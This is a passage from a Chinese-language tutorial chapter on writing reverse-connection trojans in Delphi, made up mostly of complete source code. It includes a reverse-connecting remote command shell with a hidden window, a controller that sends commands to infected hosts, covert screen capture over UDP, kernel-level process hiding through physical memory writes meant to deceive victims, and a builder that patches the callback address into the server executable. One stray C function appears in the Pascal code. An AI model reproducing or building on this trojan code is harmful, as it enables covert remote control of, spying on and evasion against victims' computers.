procedure TForm1.Timer1Timer(Sender: TObject);
var
  host1: string;
  port1: Integer;
begin
  // 注意，Timer1 的 Interval 属性要设置为大于 1000，否则可能会多次请求连接控制端
  host1 := '127.0.0.1';                // 编程测试版
  port1 := 8888;

  ClientSocket1.Active := False;
  ClientSocket1.Host := host1;
  ClientSocket1.Port := port1;
  ClientSocket1.Active := True;
end;

procedure TForm1.ClientSocket1Connect(Sender: TObject;
  Socket: TCustomWinSocket);
begin
  Timer1.Enabled := False;   // 如果连接成功，就不要尝试连接
end;

procedure TForm1.ClientSocket1Disconnect(Sender: TObject;
  Socket: TCustomWinSocket);
begin
  Timer1.Enabled := True;    // 如果没有连接，就重新尝试连接
end;

procedure TForm1.ClientSocket1Read(Sender: TObject;
  Socket: TCustomWinSocket);
var
  order: string;
  url, msg: string;
  //============================================= DOSSHELL 的变量声明
  Remotecmd: string;
  Readniming, Writeniming: THandle;
  si: STARTUPINFO;
  lsa: SECURITY_ATTRIBUTES;
  pi: PROCESS_INFORMATION;
  cchReadBuffer: DWORD;      // 缓冲区中保存和读出字符的数量
  ph: PChar;                 // 缓冲
  fname: PChar;              // 执行 DOS 命令用的
  //=============================================
begin
  order := Socket.ReceiveText;
  if Copy(order, 1, 3) = 'cmd' then
  begin
    url := Copy(order, 4, Length(order));    // 得到要执行的 CMD 命令
    Remotecmd := 'cmd /c' + url;
    fname := AllocMem(255);
    ph := AllocMem(5000);
    lsa.nLength := SizeOf(SECURITY_ATTRIBUTES);
    lsa.lpSecurityDescriptor := nil;
    lsa.bInheritHandle := True;
    if CreatePipe(Readniming, Writeniming, @lsa, 0) = False then
    begin
      ClientSocket1.Socket.SendText('不能创建匿名管道');
      FreeMem(ph);
      FreeMem(fname);
      Exit;
    end;
    FillChar(si, SizeOf(STARTUPINFO), 0);
    si.cb := SizeOf(STARTUPINFO);
    si.dwFlags := (STARTF_USESTDHANDLES or STARTF_USESHOWWINDOW);
    si.wShowWindow := SW_HIDE;
    si.hStdOutput := Writeniming;
    StrPCopy(fname, Remotecmd);
```

# 第六章 菜鸟进阶之反弹木马编写

```pascal
if CreateProcess(nil, fname, nil, nil, True, 0, nil, nil, si, pi) = False then
begin
    ClientSocket1.Socket.SendText('不能创建进程');
    FreeMem(ph);
    FreeMem(fname);
    Exit;
end;

while (True) do
begin //++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
    if not PeekNamedPipe(ReadMemImg, ph, 1, @cchReadBuffer, nil, nil) then
        Break;

    if cchReadBuffer <> 0 then //================
    begin
        if ReadFile(ReadMemImg, ph^, 4096, cchReadBuffer, nil) = False then Break;
        ph[cchReadBuffer] := Chr(0);
        Memo1.Lines.Add(ph);
    end
    else //====================================
        if (WaitForSingleObject(pi.hProcess, 0) = WAIT_OBJECT_0) then Break;
    Sleep(500);
end; //++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
ph[cchReadBuffer] := Chr(0);
Memo1.Lines.Add(ph);
CloseHandle(WriteMemImg);
CloseHandle(ReadMemImg);
CloseHandle(pi.hProcess);
CloseHandle(pi.hThread);
FreeMem(ph);
FreeMem(fname);
ClientSocket1.Socket.SendText(Memo1.Text);
end;

end;
procedure TForm1.FormCreate(Sender: TObject);
begin
/// 在编程测试过程中省略了下面这句，以方便测试。
// Form1.Visible := False;
end;

end.
```

其中，截取 CMD 的回显结果使用到了管道技术，读者朋友们可以仔细阅读以上代码来加深印象。

### 6.6.2 编写控制端

现在再来编写控制端程序，使用到的组件有 ServerSocket，用来接收被控端发送过来的连接请求和数据通信，程序界面如图 6.34 所示。

摆放好各个组件的位置后，就可以编写程序代码了。

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, ScktComp, StdCtrls, ComCtrls;

type
  TForm1 = class(TForm)
    ListView1: TListView;
    Button1: TButton;
    ServerSocket1: TServerSocket;
    Edit1: TEdit;
    Label1: TLabel;
    Edit2: TEdit;
    Button3: TButton;
    Label2: TLabel;
    ListBox1: TListBox;
    Label3: TLabel;
    Memo1: TMemo;
    procedure Button1Click(Sender: TObject);
    procedure ServerSocket1ClientConnect(Sender: TObject;
      Socket: TCustomWinSocket);
    procedure ServerSocket1ClientDisconnect(Sender: TObject;
      Socket: TCustomWinSocket);
    procedure Button3Click(Sender: TObject);
    procedure ServerSocket1ClientRead(Sender: TObject;
      Socket: TCustomWinSocket);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

procedure TForm1.Button1Click(Sender: TObject);
begin
  ServerSocket1.Active := False;  // 首先关闭 ServerSocket
  ServerSocket1.Port := StrToInt(Edit1.Text);  // 要转换为整数类型
  ServerSocket1.Active := True;
  ListBox1.Items.Add('监听端口：' + Edit1.Text);
end;

procedure TForm1.ServerSocket1ClientConnect(Sender: TObject;
    Socket: TCustomWinSocket);
var
  a: TListItem;
begin
  a := ListView1.Items.Add;
  a.Caption := Socket.RemoteAddress;
  ListBox1.Items.Add('有主机上线：' + Socket.RemoteAddress);
end;

procedure TForm1.ServerSocket1ClientDisconnect(Sender: TObject;
    Socket: TCustomWinSocket);
var
  i: Integer;
begin
  for i := 0 to ListView1.Items.Count - 1 do
  begin
    if Socket.RemoteAddress = ListView1.Items.Item[i].Caption then
    begin
      ListBox1.Items.Add('有主机下线：' + Socket.RemoteAddress);
      ListView1.Items.Item[i].Delete;  // 删除下线主机
      Exit;
    end;
  end;
end;

procedure TForm1.Button3Click(Sender: TObject);
begin
  try   // 发送 CMD 命令
    ServerSocket1.Socket.Connections[ListView1.Selected.Index].SendText('cmd' + Edit2.Text);
  except
    ShowMessage('发送指令出错！');
  end;
end;

procedure TForm1.ServerSocket1ClientRead(Sender: TObject;
    Socket: TCustomWinSocket);
begin   // 显示返回的 CMD 执行结果
  Memo1.Lines.Add(Socket.ReceiveText);
end;

end.
```

程序的流程为，首先等待被控端的程序连接，在连接建立后，就发送相关的 CMD 命令，CMD 命令在被控端执行完毕后，就会返回给控制端，然后在控制端的 Memo 组件中就会显示出这些执行的结果。

### 6.6.3 程序运行

按 F9 运行客户端和服务端程序，来到控制端程序中，点击“监听”按钮开始监听 8888 端口，被控端程序上线后，选择上线的主机 IP 地址，然后在 CMD 命令输入框中输入想要执行的 CMD 命令，比如我们输入“DIR C:\”命令，点击“执行命令”按钮，命令执行的结果就会显示在下方空白框中了，如图 6.35。再比如我们在 CMD 命令输入栏中输入“NET USER”命令，得到的命令执行结果如图 6.36 所示。一个 C/S 模式的远程控制软件就这样编写完毕了，读者朋友们可以自己上机操作，以熟练掌握整个过程。

## 6.7 屏幕捕捉的实现

在远程控制软件中，屏幕捕捉是一个不可或缺的功能，它可以实现实时观察对方的系统桌面，这样就能更加直观地得到对方的各项信息了。

### 6.7.1 编写被控端

首先来编写被控制端程序，因为屏幕捕捉的特殊性，对速度的要求非常高，所以我们使用 UDP 协议来传输屏幕数据包。在窗体上添加一个 NMUDP 组件，如图 6.37，因为需要使用 JPEG 对象来实现对截取的图片进行操作，所以还要添加 JPEG 文件头，如图 6.38。被控端程序的代码如下：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants,
  Classes, Graphics, Controls, Forms,
  Dialogs, NMUDP, JPEG, StdCtrls;

type
  TForm1 = class(TForm)
    NMUDP1: TNMUDP;
    procedure NMUDP1DataReceived(Sender: TComponent; NumberBytes: Integer;
        FromIP: String; Port: Integer);
    procedure FormCreate(Sender: TObject);
    procedure FormDestroy(Sender: TObject);
  private
    procedure ScreenCap(LeftPos, TopPos, RightPos, BottomPos: Integer);
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

const
  BufSize = 2048; // 数据块大小

var
  jpgStream: TMemoryStream; // 定义的 JPEG 对象是全局变量
  LeftSize: LongInt; // 发送每一笔数据后剩余的字节数

{$R *.dfm}

procedure TForm1.ScreenCap(LeftPos, TopPos, RightPos, BottomPos: Integer);
var
  bmpScreen: TBitmap;
  jpegScreen: TJPEGImage;
  FullScreenCanvas: TCanvas;
  DC: HDC;
  SourceRect, DestRect: TRect;
begin
  DC := GetDC(0);
  FullScreenCanvas := TCanvas.Create;
  FullScreenCanvas.Handle := DC;
  bmpScreen := TBitmap.Create;
  bmpScreen.Width := Screen.Width;
  bmpScreen.Height := Screen.Height;
  SourceRect := Rect(0, 0, Screen.Width, Screen.Height);
  DestRect := Rect(0, 0, Screen.Width, Screen.Height);
  bmpScreen.Canvas.CopyRect(SourceRect, FullScreenCanvas, DestRect);
  // 使用 CopyRect 方法把屏幕 Canvas 中的数据复制到 JPEG 中
  jpegScreen := TJPEGImage.Create; // 转换为 JPEG，因为 JPEG 被压缩，所以文件数据量小
  jpegScreen.Assign(bmpScreen);
  jpegScreen.CompressionQuality := 40; // 设置压缩率
  jpegScreen.SaveToStream(jpgStream); // jpgStream 为全局变量，函数被调用完毕后，jpgStream 中还保存有数据
  jpgStream.Position := 0;
  LeftSize := jpgStream.Size;
  FullScreenCanvas.Free;        // 下面是释放所有对象、流文件和句柄
  bmpScreen.Free;
  jpegScreen.Free;
  ReleaseDC(0, DC);
end;

procedure TForm1.NMUDP1DataReceived(Sender: TComponent;
  NumberBytes: Integer; FromIP: String; Port: Integer);
var
  CtrlCode: array[0..29] of Char;
  Buf: array[0..BufSize - 1] of Char;    // 2048 字节
  SendSize: Integer;
begin
  NMUDP1.ReadBuffer(Buf, NumberBytes);      // 读取控制码
  // ListBox1.Items.Add(StrPas(Buf));        // 显示控制码

  if StrPas(Buf) = 'SHOW' then              // 得到截取屏幕的命令
  begin
    Application.ProcessMessages;
    if jpgStream.Size = 0 then
      ScreenCap(0, 0, Screen.Width, Screen.Height); // 没有数据可发，首先截屏
    if LeftSize > BufSize then        // 剩下的数据大于 2048
      SendSize := BufSize
    else                              // 剩下的数据小于等于 2048，也就是最后一次发送数据
      SendSize := LeftSize;

    jpgStream.ReadBuffer(Buf, SendSize);
    LeftSize := LeftSize - SendSize;      // LeftSize 每次减少 2048 字节
    NMUDP1.RemoteHost := FromIP;
    NMUDP1.SendBuffer(Buf, SendSize);   // 发送数据
    if LeftSize = 0 then jpgStream.Clear; // 清空 JPEG 内存流，这样当下次接收到 SHOW 命令时，就要重新截图
  end;
end;

procedure TForm1.FormCreate(Sender: TObject);
begin
  jpgStream := TMemoryStream.Create;     // 创建 JPEG 内存流
end;

procedure TForm1.FormDestroy(Sender: TObject);
begin
  jpgStream.Free;                        // 释放 JPEG 内存流
end;

end.
```

### 6.7.2 编写控制端

现在再来编写控制端程序，控制端也使用 UDP 协议接收被控端发送过来的屏幕数据包，所以要添加一个 NMUDP 组件到窗体上，同时还要添加一个编辑框，用来输入被控制主机的 IP 地址，添加一个按钮组件用来获取屏幕数据，程序界面如图 6.39 所示。

我们还要设置一下 Image 对象的属性，以便更好地显示接收到的屏幕数据，修改 Image 组件的 Align 属性为 alClient，如图 6.40。为了避免两个 Label 组件会挡住 Image 对图片的显示，还要修改它们的 Transparent 属性为真（True），如图 6.41。控制端程序也使用到了 JPEG 对象，所以还要添加 JPEG 文件头，如图 6.42。

程序的全部代码如下：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes,
  Graphics, Controls, Forms,
  Dialogs, StdCtrls, NMUDP, JPEG, ExtCtrls;
// 把内存流显示在 Image 中要使用 JPEG 过渡

type
  TForm1 = class(TForm)
    NMUDP1: TNMUDP;
    Button1: TButton;
    Edit1: TEdit;
    Image1: TImage;
    Label1: TLabel;
    Label2: TLabel;
    procedure NMUDP1DataReceived(Sender: TComponent; NumberBytes: Integer;
      FromIP: String; Port: Integer);
    procedure Button1Click(Sender: TObject);
    procedure FormCreate(Sender: TObject);
    procedure FormDestroy(Sender: TObject);
  private
    { Private declarations }
  public
```

```pascal
{ Public declarations }
end;

var
  Form1: TForm1;

implementation

const
  BufSize = 2048;
  MsgSize = 256;

var
  Stream, RsltStream: TMemoryStream;
  JpegScreen: TJPEGImage;

{$R *.dfm}

procedure TForm1.NMUDP1DataReceived(Sender: TComponent;
  NumberBytes: Integer; FromIP: String; Port: Integer);
var
  ReqCode: array[0..29] of Char;
begin
  NMUDP1.ReadStream(Stream);
  RsltStream.CopyFrom(Stream, NumberBytes);

  if NumberBytes < BufSize then // 数据小于2048，说明是最后的一块数据，表明数据已读取完
  begin
    RsltStream.Position := 0;      // 指定图片数据流文件的文件指针
    JpegScreen.LoadFromStream(RsltStream);  // 把内存流中的图片数据保存到JPEG对象
    Image1.Picture.Bitmap.Assign(JpegScreen); // 把JPEG对象中的图片数据显示在Image中
    Stream.Clear;      // 清空临时流文件流数据
    RsltStream.Clear;  // 清空图片流文件数据
  end
  else
  begin                         // 接收到的分块数据，大小为2048字节，也就是2KB
    Stream.Clear;               // 清空临时流文件
    ReqCode := 'SHOW';
    NMUDP1.RemoteHost := FromIP;
    NMUDP1.SendBuffer(ReqCode, 30); // 发送截图命令
  end;
end;

procedure TForm1.Button1Click(Sender: TObject);
var
  Buf: array[0..29] of Char;
begin
  Buf := 'SHOW';                // 这里需要大写，因为被控制端是大写
  Stream.Clear;                 // 清空本地流文件数据
  RsltStream.Clear;

  NMUDP1.RemoteHost := Edit1.Text;    // 发送截图命令
  NMUDP1.SendBuffer(Buf, 30);
end;

procedure TForm1.FormCreate(Sender: TObject);
begin
  JpegScreen := TJPEGImage.Create;    // 创建JPEG对象
  Stream := TMemoryStream.Create;     // 创建两个流文件，一个保存临时数据，一个保存接收到的整张图像数据
  Stream.Position := 0;
  RsltStream := TMemoryStream.Create;
  Image1.AutoSize := False;           // Image大小不变
end;

procedure TForm1.FormDestroy(Sender: TObject);
begin
  RsltStream.Free;    // 释放流文件
  Stream.Free;
  JpegScreen.Free;    // 释放JPEG对象
end;

end.
```

## 第六章 木马进阶之反弹木马编写

### 6.7.3 程序运行

按 F9 分别运行两个程序，输入被控端程序的主机 IP 地址，然后在控制端主界面中点击“捕获屏幕”按钮，就会得到截取的屏幕图片了，如图 6.43。

上面只是介绍了截取一幅图片的方法，如果想截取连续的图片文件，实现实时动画的效果，则可以建立一个 TIMER 组件，定期地进行按钮的单击事件来达到发送截取命令得到屏幕数据的目的了。

## 6.8 进程隐藏

现在的木马为了能够使自己常驻系统，往往倾向于隐藏进程，本节我们就来介绍一种进程隐藏的方法。

### 6.8.1 程序编写

这里使用一个演示程序来实现对程序进程的隐藏，程序界面非常简单，只使用到了一个 BUTTON 组件，在实际的编写过程中，可以把进程隐藏的事件定为窗体的载入事件，而非这里的按钮单击事件，如图 6.44。

程序使用到了两个单元文件，我先来介绍单元文件 1 的编写方法。

- 1. 单元1

在单元文件 1 中使用到了单元文件 2 中的一个隐藏进程的函数，所以要先引用单元文件 2，我们使用 USES 语句来引用单元文件 2，如图 6.45。

另外，在按钮的单击事件中还调用了单元文件 2 中的 MyHideProcess 函数来实现对程序进程的隐藏，程序的代码如下：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls;

type
  TForm1 = class(TForm)
    Button1: TButton;
    procedure Button1Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

uses
  Unit2;  // 使用单元2

{$R *.dfm}

procedure TForm1.Button1Click(Sender: TObject);
begin
  MyHideProcess;  // 调用隐藏进程过程
end;

end.
```

- 2. 单元2

接下来编写单元文件 2 中的代码，单元文件 2 中主要提供一个 MyHideProcess 函数，来实现对程序进程的隐藏。我们添加一个单元文件，添加的方法为找到“文件”(File)菜单下的“新建”(New)子菜单，选择其中的“单元”(Unit)，如图 6.46。

这样，就成功添加了一个单元文件 2。单元文件 2 中的所有代码如下，它主要用来实现一个目的，就是提供一个 MyHideProcess 函数以供单元文件 1 调用，来实现进程的隐藏。

```pascal
unit Unit2;

interface

function MyHideProcess: Boolean;

implementation

uses
  Windows, SysUtils, Variants, Classes, AclAPI, AccCtrl;

type
  NTSTATUS = LongInt;

const
  // NT_SUCCESS(Status) ((NTSTATUS)(Status) >= 0)
  STATUS_INFO_LENGTH_MISMATCH = NTSTATUS($C0000004);
  STATUS_ACCESS_DENIED = NTSTATUS($C0000022);
  OBJ_INHERIT = $00000002;
  OBJ_PERMANENT = $00000010;
  OBJ_EXCLUSIVE = $00000020;
  OBJ_CASE_INSENSITIVE = $00000040;
  OBJ_OPENIF = $00000080;
  OBJ_OPENLINK = $00000100;
  OBJ_KERNEL_HANDLE = $00000200;
  OBJ_VALID_ATTRIBUTES = $000003F2;

type
  PIO_STATUS_BLOCK = ^IO_STATUS_BLOCK;
  IO_STATUS_BLOCK = record
    Status: NTSTATUS;
    FObject: DWORD;
  end;

  PUNICODE_STRING = ^UNICODE_STRING;
  UNICODE_STRING = record
    Length: Word;
    MaximumLength: Word;
    Buffer: PWideChar;
  end;

  POBJECT_ATTRIBUTES = ^OBJECT_ATTRIBUTES;
  OBJECT_ATTRIBUTES = record
    Length: DWORD;
    RootDirectory: Pointer;
    ObjectName: PUNICODE_STRING;
    Attributes: DWORD;
    SecurityDescriptor: Pointer;
    SecurityQualityOfService: Pointer;
  end;

  TZwOpenSection = function(SectionHandle: PHandle;
    DesiredAccess: ACCESS_MASK;
    ObjectAttributes: POBJECT_ATTRIBUTES): NTSTATUS; stdcall;
  TRtlInitUnicodeString = procedure(DestinationString: PUNICODE_STRING;
    SourceString: PWideChar); stdcall;

var
  RtlInitUnicodeString: TRtlInitUnicodeString = nil;
  ZwOpenSection: TZwOpenSection = nil;
  g_hNtDLL: THandle = 0;
  g_pMapPhysicalMemory: Pointer = nil;
  g_hMPM: THandle = 0;
  g_hMPM2: THandle = 0;
  g_osvi: OSVERSIONINFO;
  b_hide: Boolean = False;

//--------------------------------------------------
function InitNTDLL: Boolean;
begin
  g_hNtDLL := LoadLibrary('ntdll.dll');

  if 0 = g_hNtDLL then
  begin
    Result := False;
    Exit;
  end;

  RtlInitUnicodeString := GetProcAddress(g_hNtDLL, 'RtlInitUnicodeString');
  ZwOpenSection := GetProcAddress(g_hNtDLL, 'ZwOpenSection');

  Result := True;
end;

//--------------------------------------------------
procedure CloseNTDLL;
begin
  if (0 <> g_hNtDLL) then
    FreeLibrary(g_hNtDLL);
  g_hNtDLL := 0;
end;

//--------------------------------------------------
procedure SetPhysicalMemorySectionCanBeWriteed(hSection: THandle);
var
  pDacl: PACL;
  pSD: PPSECURITY_DESCRIPTOR;
  pNewDacl: PACL;
  dwRes: DWORD;
  ea: EXPLICIT_ACCESS;
begin
  pDacl := nil;
  pSD := nil;
  pNewDacl := nil;

  dwRes := GetSecurityInfo(hSection, SE_KERNEL_OBJECT, DACL_SECURITY_INFORMATION,
    nil, nil, pDacl, nil, pSD);

  if ERROR_SUCCESS <> dwRes then
  begin
    if Assigned(pSD) then
      LocalFree(HLOCAL(pSD));
    if Assigned(pNewDacl) then
      LocalFree(HLOCAL(pNewDacl));
  end;

  ZeroMemory(@ea, SizeOf(EXPLICIT_ACCESS));
  ea.grfAccessPermissions := SECTION_MAP_WRITE;
  ea.grfAccessMode := GRANT_ACCESS;
  ea.grfInheritance := NO_INHERITANCE;
  ea.Trustee.TrusteeForm := TRUSTEE_IS_NAME;
  ea.Trustee.TrusteeType := TRUSTEE_IS_USER;
  ea.Trustee.ptstrName := 'CURRENT_USER';

  dwRes := SetEntriesInAcl(1, @ea, pDacl, pNewDacl);

  if ERROR_SUCCESS <> dwRes then
  begin
    if Assigned(pSD) then
      LocalFree(HLOCAL(pSD));
    if Assigned(pNewDacl) then
      LocalFree(HLOCAL(pNewDacl));
  end;

  dwRes := SetSecurityInfo(hSection, SE_KERNEL_OBJECT, DACL_SECURITY_INFORMATION,
    nil, nil, pNewDacl, nil);

  if ERROR_SUCCESS <> dwRes then
  begin
    if Assigned(pSD) then
      LocalFree(HLOCAL(pSD));
    if Assigned(pNewDacl) then
      LocalFree(HLOCAL(pNewDacl));
  end;
end;

//----------------------------------------------
function OpenPhysicalMemory: THandle;
var
  status: NTSTATUS;
  physmemString: UNICODE_STRING;
  attributes: OBJECT_ATTRIBUTES;
  PhyDirectory: DWORD;
begin
  g_osvi.dwOSVersionInfoSize := SizeOf(OSVERSIONINFO);
  GetVersionEx(g_osvi);

  if (6 <> g_osvi.dwMajorVersion) then
  begin
    Result := 0;
    Exit;
  end;

  case g_osvi.dwMinorVersion of
    0: PhyDirectory := $30000;
    1: PhyDirectory := $39000;
  else
    begin
      Result := 0;
      Exit;
    end;
  end;

  RtlInitUnicodeString(@physmemString, '\Device\PhysicalMemory');

  attributes.Length := SizeOf(OBJECT_ATTRIBUTES);
  attributes.RootDirectory := nil;
  attributes.ObjectName := @physmemString;
  attributes.Attributes := 0;
  attributes.SecurityDescriptor := nil;
  attributes.SecurityQualityOfService := nil;

  status := ZwOpenSection(@g_hMPM, SECTION_MAP_READ or SECTION_MAP_WRITE, @attributes);
  if (status = STATUS_ACCESS_DENIED) then
  begin
    ZwOpenSection(@g_hMPM, READ_CONTROL or WRITE_DAC, @attributes);
    SetPhysicalMemorySectionCanBeWriteed(g_hMPM);
    CloseHandle(g_hMPM);
    status := ZwOpenSection(@g_hMPM, SECTION_MAP_READ or SECTION_MAP_WRITE, @attributes);
  end;

  if not (LongInt(status) >= 0) then
  begin
    Result := 0;
    Exit;
  end;

  g_pMapPhysicalMemory := MapViewOfFile(g_hMPM,
    FILE_MAP_READ or FILE_MAP_WRITE, 0, PhyDirectory, $1000);

  if (g_pMapPhysicalMemory = nil) then
  begin
    Result := 0;
    Exit;
```

```pascal
end;

Result := g_hMPM;

end;

//——————————————————————————————————————————————

function LinearToPhys(BaseAddress: PULONG; addr: Pointer): Pointer;
var
    VAddr, PGDE, PTE, PAddr, tmp: DWORD;
begin
    VAddr := DWORD(addr);

    // PGDE := BaseAddress[VAddr shr 22];
    PGDE := PULONG(DWORD(BaseAddress) + (VAddr shr 22) * SizeOf(ULONG))^; // Modify by dot.

    if 0 = (PGDE and 1) then
    begin
        Result := nil;
        Exit;
    end;

    tmp := PGDE and $00000080;

    if (0 <> tmp) then
    begin
        PAddr := (PGDE and $FFC00000) + (VAddr and $003FFFFF);
    end
    else
    begin
        PGDE := DWORD(MapViewOfFile(g_hMPM, 4, 0, PGDE and $FFFFF000, $1000));
        // PTE := (PDWORD(PGDE))[(VAddr and $003FF000) shr 12];
        PTE := PDWORD(PGDE + ((VAddr and $003FF000) shr 12) * SizeOf(DWORD))^; // Modify by dot.

        if (0 = (PTE and 1)) then
        begin
            Result := nil;
            Exit;
        end;

        PAddr := (PTE and $FFFFF000) + (VAddr and $00000FFF);
        UnmapViewOfFile(Pointer(PGDE));
    end;

    Result := Pointer(PAddr);
end;

//——————————————————————————————————————————————

function GetData(addr: Pointer): DWORD;
var
    phys, ret: DWORD;
    tmp: PDWORD;
begin
    phys := ULONG(LinearToPhys(g_pMapPhysicalMemory, Pointer(addr)));
    tmp := PDWORD(MapViewOfFile(g_hMPM, FILE_MAP_READ or FILE_MAP_WRITE, 0,
        phys and $FFFFF000, $1000));

    if (nil = tmp) then
    begin
        Result := 0;
        Exit;
    end;

    // ret := tmp[(phys and $FFF) shr 2];
    ret := PDWORD(DWORD(tmp) + ((phys and $FFF) shr 2) * SizeOf(DWORD))^; // Modify by dot
    UnmapViewOfFile(tmp);

    Result := ret;
end;

function SetData(addr: Pointer; data: DWORD): Boolean;
var
    phys: DWORD;
    tmp: PDWORD;
begin
    phys := ULONG(LinearToPhys(g_pMapPhysicalMemory, Pointer(addr)));
    tmp := PDWORD(MapViewOfFile(g_hMPM, FILE_MAP_WRITE, 0, phys and $FFFFF000, $1000));

    if (nil = tmp) then
    begin
        Result := False;
        Exit;
    end;

    // tmp[(phys and $FFF) shr 2] := data;
    PDWORD(DWORD(tmp) + ((phys and $FFF) shr 2) * SizeOf(DWORD))^ := data; // Modify by dot
    UnmapViewOfFile(tmp);

    Result := TRUE;
end;

long __stdcall exception(struct _EXCEPTION_POINTERS *tmp)
{
    ExitProcess(0);
    return 1;
}

function YHideProcess: Boolean;
var
  thread, process: DWORD;
  fw, bw: DWORD;
begin
  // SetUnhandledExceptionFilter(exception);
  if (FALSE = InitNTDLL) then
  begin
    Result := FALSE;
    Exit;
  end;

  if (0 = OpenPhysicalMemory) then
  begin
    Result := FALSE;
    Exit;
  end;

  thread := GetData(Pointer($FFDFF124)); // Kteb
  process := GetData(Pointer(thread + $44)); // Kpeb

  if (0 = g_osvi.dwMinorVersion) then
  begin
    fw := GetData(Pointer(process + $A0));
    bw := GetData(Pointer(process + $A4));

    SetData(Pointer(fw + 4), bw);
    SetData(Pointer(bw), fw);

    Result := TRUE;
  end
  else if (1 = g_osvi.dwMinorVersion) then
  begin
    fw := GetData(Pointer(process + $88));
    bw := GetData(Pointer(process + $8C));

    SetData(Pointer(fw + 4), bw);
    SetData(Pointer(bw), fw);

    Result := TRUE;
  end
  else
  begin
    Result := False;
  end;

  CloseHandle(g_hMPM);
  CloseNTDLL;
end;

function MyHideProcess: Boolean;
begin
  if not b_hide then
  begin
    b_hide := YHideProcess;
  end;

  Result := b_hide;
end;

end;
```

程序的代码有些长，不能理解的读者朋友们可以把这段代码当作一个重复模块。

### 6.8.2 程序运行

按 F9 运行程序，我们可以在任务管理器中看到程序显示出了自己的进程信息“PROJECT1.EXE”，如图6.47。点击“隐藏”按钮，可以看到在任务管理器中进程数依然显示为 27，但是 PROJECT1.EXE 这个进程已经在任务管理器中看不到了，如图6.48。不过，所有的进程隐藏技术，都可以使用一些内核级别的工具来查看到，比如我们使用 WSYSCHECK 就可以查看到隐藏的进程，如图6.49。这样的进程隐藏技术，在一般情况下还是非常有用的，可以迷惑中马者。

## 6.9 服务端配置

很多木马程序在编写出来后不仅要提供给自己使用，有的还要提供给大家共同使用，这样就需要根据用户的要求进行具体的不同配置。本章的最后我们再来介绍一下如何编写可以配置的木马程序。

### 6.9.1 编写被控端

作为被控端，本例子程序只作为一个演示程序来读取配置信息，所以没有使用到任何控件，只有一个窗体，界面如图6.50所示。

被控端程序的代码非常简单，只有一个对话框，用来显示配置信息，代码如下：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls, ScktComp;

type
  TForm1 = class(TForm)
    Label1: TLabel;
    procedure FormCreate(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

const
  ip_port = 'xxxxxxxxxxxxxxxxxxxxxxxx';

implementation

{$R *.dfm}

procedure TForm1.FormCreate(Sender: TObject);
begin
  ShowMessage(ip_port);  // 显示IP和端口信息
end;

end.
```

程序中定义了一个常量，用来保存 IP 和端口信息，然后使用 SHOWMESSAGE 函数来读取出它的信息。

### 6.9.2 编写配置端

配置端主要是用来配置服务端程序，配置端的界面使用到了两个编辑框组件和一个按钮组件，如图6.51。

在开始编写代码前，还要把服务端程序作为一个资源程序保存在配置端中，方法如下：

- 新建一个 A.RC 文件，内容为“resname1 restype1 SERVER.exe”。
- 把这个文件放置到“C:\Program Files\Borland\Delphi6\Bin\”目录下。
- 然后生成服务端文件，并把生成的服务端文件命名为 SERVER.EXE，同样也复制到这个 BIN 目录下，如图6.52。
- 打开 CMD 命令提示符，来到 BIN 目录下，输入命令 **brcc32 a.rc**，如图6.53。
- 此时便会自动生成一个 A.RES 文件，如图6.54。
- 现在再来到配置端的代码编辑窗口，输入如下的编译代码，表示把 A.RES 作为资源文件载入到配置端程序中，如图6.55。

要编写配置端程序，首先就要获得服务端程序的特征码地址。我们使用 C32ASM 打开 SERVER.EXE 文件，如图6.56，按 Ctrl+F 弹出搜索框，搜索“XXXXXX”这个字符串，就会来到“51718”这个地址。这个地址是 16 进制的，需要转换为十进制，使用计算器转换后为“333592”，如图6.57。

现在，已经得到了服务端的特征码地址，可以进行代码的编写了，代码如下：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants,
  Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls, ComCtrls, ScktComp;

type
  TForm1 = class(TForm)
    GroupBox1: TGroupBox;
    Button1: TButton;
    Edit1: TEdit;
    Edit2: TEdit;
    Label1: TLabel;
    Label2: TLabel;
    Label4: TLabel;
    SaveDialog1: TSaveDialog;
    Button2: TButton;
    procedure Button1Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}
{$R a.res}

procedure TForm1.Button1Click(Sender: TObject);
var
  a: TResourceStream;
  s: string;
  i: Integer;
  buf1: array[1..50] of Char;
  f: file;
begin
  a := TResourceStream.Create(hInstance, 'resname1', 'restype1');  // 读取资源
  if SaveDialog1.Execute then                                      // 保存资源
  begin
    a.SaveToFile(SaveDialog1.FileName);                            // 保存资源到文件
  end;

  s := Edit1.Text + ':' + Edit2.Text;                              // 赋值给字符串变量
  ShowMessage(s);

  for i := 1 to 50 do                                              // 首先把buf1全部放0
    buf1[i] := Char(0);

  for i := 1 to Length(s) do
    buf1[i] := s[i];                                               // 把字符串逐个赋给数组
  AssignFile(f, SaveDialog1.FileName);                             // 开始配置
  Reset(f, 1);
  Seek(f, 333592);                                                 // 找到要修改的起始位置
  BlockWrite(f, buf1, 50);                                         // 写入配置信息
  CloseFile(f);                                                    // 关闭文件
end;

end.
```

其中使用到了 SEEK 函数找到“333592”这个地址，然后使用 BLOCKWRITE 函数开始写操作，最后使用 CLOSEFILE 函数来关闭文件。

### 6.9.3 程序运行

